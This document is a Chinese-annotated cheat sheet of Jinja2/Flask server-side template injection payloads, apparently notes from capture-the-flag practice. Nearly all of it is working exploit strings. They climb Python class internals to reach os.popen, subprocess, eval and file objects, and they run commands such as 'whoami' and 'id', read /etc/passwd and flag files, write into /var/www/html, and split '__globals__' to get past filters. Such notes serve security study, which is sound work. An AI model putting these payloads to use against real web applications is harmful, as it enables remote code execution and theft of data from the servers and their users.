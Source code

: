 ```
获取基类
//获取基本类
{{[].__class__}}

//获取所有类
''.__class__.__mro__[2].__subclasses__()
获取config对象与request对象类

{{url_for.__globals__}}
{{config}}#即查看权限
{{ config.SQLALCHEMY_DATABASE_URI }}

python2
#读取文件类，<type ‘file’> file位置一般为40，直接调用
[].__class__.__base__.__subclasses__()[40]('fl4g').read()

<class ‘site._Printer’> #调用os的popen执行命令
{{[].__class__.__base__.__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('ls').read()}}
[].__class__.__base__.__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('ls /flasklight').read()
[].__class__.__base__.__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('cat coomme_geeeett_youur_flek').read()

#如果system被过滤，用os的listdir读取目录+file模块读取文件：
().__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].listdir('.')

<class ‘subprocess.Popen’> 位置一般为258
{{''.__class__.__mro__[2].__subclasses__()[258]('ls',shell=True,stdout=-1).communicate()[0].strip()}}
{{''.__class__.__mro__[2].__subclasses__()[258]('ls /flasklight',shell=True,stdout=-1).communicate()[0].strip()}}
{{''.__class__.__mro__[2].__subclasses__()[258]('cat /flasklight/coomme_geeeett_youur_flek',shell=True,stdout=-1).communicate()[0].strip()}}

<class ‘warnings.catch_warnings’>
#一般位置为59，可以用它来调用file、os、eval、commands等
#调用file
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('/etc/passwd').read()      #把 read() 改为 write() 就是写文件
#读文件
().__class__.__bases__[0].__subclasses__()[40](r'C:\1.php').read()
object.__subclasses__()[40](r'C:\1.php').read()
#写文件
().__class__.__bases__[0].__subclasses__()[40]('/var/www/html/input', 'w').write('123')
object.__subclasses__()[40]('/var/www/html/input', 'w').write('123')

#调用eval
[].__class__.__base__.__subclasses__()[59].__init__['__glo'+'bals__']['__builtins__']['eval']("__import__('os').popen('ls').read()")
#调用system方法
>>> [].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.values()[12].__dict__.values()[144]('whoami')
#调用commands进行命令执行
{}.__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('commands').getstatusoutput('ls')

python3
#读取文件与写文件类
{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__[%27open%27](%27/etc/passwd%27).read()}}
#执行命令
{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__['eval']("__import__('os').popen('id').read()")}}
```